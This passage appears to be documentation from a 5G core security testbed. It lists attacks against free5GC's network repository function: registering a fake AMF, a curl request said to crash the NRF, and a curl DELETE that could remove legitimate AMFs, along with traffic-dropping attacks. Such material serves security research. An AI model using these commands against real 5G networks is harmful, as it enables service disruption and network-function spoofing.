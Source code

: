 ```
      "nfServiceStatus":"REGISTERED",
      "ipEndPoints":[
        {
          "ipv4Address":"127.0.0.18",
          "transport":"TCP",
          "port":8000
        }
      ],
      "apiPrefix":"http://127.0.0.18:8000"
    }
  ],
  "defaultNotificationSubscriptions":[
    {
      "notificationType":"N1_MESSAGES",
      "callbackUri":"http://127.0.0.18:8000/namf-callback/v1/n1-message-notify",
      "n1MessageClass":"5GMM"
    }
  ]
}"

http://127.0.0.10:8000/nnrf-nfm/v1/nf-instances/b01dface-bead-cafe-bade-cabledfabled
```
    
### randomAMFInsert
This attack is the same as "FakeAMFInsert" except the instance ID is a randomly generated UUID.

## DOS Attacks
### CrashNRF
This attack relies on an exploit in free5GC wherein a malformed request to the network repository function (NRF) will cause it to crash. This attack is run using
```
curl "http://127.0.0.10:8000/nnrf-disc/v1/nf-instances?requester-nf-type=&target-nf-type="
```
where 127.0.0.10 is the IP address of the NRF. As of free5GC v3.1.1, this exploit appears to have been patched, as this HTTP `GET` request will no longer result in the failure of the core. 
   
### FakeAMFDelete
This attack is operated in conjunction with *FakeAMFInsert* with the line
```
curl -s -o /dev/null -w "\n\nHTTP Status Code: %{http_code}\n\n" -X DELETE http://127.0.0.10:8000/nnrf-nfm/v1/nf-instances/$fakeAMF
```
where `fakeAMF` is the hexadecimal session ID of the false AMF inserted into the system. This attack, coupled with *GetAllNFs* to find other AMFs, could be exploited to remove legitimate AMFs from the network, disrupting network functionality.

### automatedDropWithTimer
This attack is similar to the "Automatic Redirect with Timer" attack, but alternates between redirecting user traffic and dropping user traffic, effectively disconnecting the user from the data network (DN).
